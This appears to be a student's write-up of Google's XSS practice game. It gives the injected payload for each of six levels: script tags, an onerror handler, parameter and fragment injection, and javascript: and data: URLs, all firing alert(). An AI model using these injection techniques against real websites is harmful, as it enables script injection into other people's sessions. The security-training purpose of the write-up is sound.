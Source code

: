 # Project 2: XSS Google Challenge

## Kevin Jackson

###Level 1 Answer

Insert the following code into the text box and press enter:

```html
<script> alert('XSS') </script>
```

###Level 2 Answer

Insert the following code into the message box and press enter:

```html
<img src="http://example.com" onerror="javascript:alert(1)"/>
```

###Level 3 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```
###Level 4 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
```

###Level 5 Answer

Insert the following code into the search bar and press enter. After that press next:

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")
```


###Level 6 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
